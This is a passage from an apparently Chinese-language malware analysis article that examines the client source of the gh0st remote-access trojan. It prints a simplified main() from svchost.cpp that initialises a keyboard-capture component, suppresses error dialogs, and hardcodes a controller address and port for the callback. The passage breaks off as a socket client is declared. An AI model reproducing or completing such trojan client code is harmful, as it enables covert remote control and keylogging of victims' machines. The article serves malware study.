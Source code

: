 ![](20181228133523.png)



为了节省篇幅，其他功能就不一一截图了，有兴趣的读者可以自行探索。



### gh0st_client 源码分析

#### 程序主脉络

我们先来看下被控制端的代码基本逻辑（原始代码位于 **svchost.cpp** 中），简化后的脉络代码如下：

```
int main(int argc, char **argv)
{  
    // lpServiceName,在ServiceMain返回后就没有了
    TCHAR	strServiceName[200];
    lstrcpy(strServiceName, TEXT("clientService"));
    //一个随机的名字
    TCHAR	strKillEvent[60];
    HANDLE	hInstallMutex = NULL;
    if (!CKeyboardManager::MyFuncInitialization())
        return -1;

    // 告诉操作系统:如果没有找到CD/floppy disc,不要弹窗口吓人
    SetErrorMode(SEM_FAILCRITICALERRORS);
    //TCHAR	*lpszHost = TEXT("127.0.0.1");
    TCHAR	*lpszHost = TEXT("10.32.26.125");
    DWORD	dwPort = 8080;
    TCHAR	*lpszProxyHost = NULL;//这里就当做是上线密码了

    HANDLE	hEvent = NULL;

    CClientSocket socketClient;
```